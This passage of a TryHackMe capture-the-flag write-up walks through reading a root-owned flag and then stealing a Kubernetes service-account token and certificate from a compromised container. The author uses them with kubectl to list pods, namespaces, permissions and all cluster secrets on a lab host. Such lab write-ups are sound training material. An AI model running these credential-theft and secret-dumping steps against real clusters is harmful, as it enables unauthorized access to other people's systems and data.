 -----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Flag2:

Upon gaining initial access, a manual enumeration revealed full access to the root directory. Within the root folder, the second flag was discovered, and with the acquired privileges, I successfully retrieved its contents: (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/e6f858da-bdaa-47ec-9af6-149cc3b18065)


-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Flag 3:

During manual enumeration, I discovered a Kubernetes service account folder located at "/var/run/secrets/kubernetes.io/serviceaccount." Within this folder, I found certificates and tokens:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/c2ed6349-3055-47ac-a109-7caef9dab81d)
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/43acdb44-2c38-4b1a-aab2-7c3b26361db5)

Copying these certificate and token files to my local host, I utilized them for Kubernetes authentication on port 6443, a port previously identified during the port and service scan.

### Kubernetes:

To streamline the process and avoid multiple copy-pasting, I exported the token into the environment and utilized the "kubectl" tool for authentication:

```bash
export token=$(cat token)
kubectl --server https://10.10.103.155:6443 --certificate-authority=ca.crt --token=$token get pod #to list the pods
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/b071514b-0ccf-4725-95e7-3245b3a2b75a)

```bash
kubectl --server https://10.10.103.155:6443 --certificate-authority=ca.crt --token=$token get namespaces #to check the namespaces
```
![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/936a2e58-a7f1-46bf-bbdd-d15d3e942284)

```bash
kubectl --server https://10.10.103.155:6443 --certificate-authority=ca.crt --token=$token auth can-i --list #to check if I can create containers inside the pod
kubectl --server https://10.10.103.155:6443 --certificate-authority=ca.crt --token=$token api-resources #to check api resources
```

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/112bd365-d9fe-4bc9-97c8-93096587d8f3)

```bash
kubectl --server https://10.10.103.155:6443 --certificate-authority=ca.crt --token=$token get secrets --all-namespaces #to check all secrest present in the namespaces
```
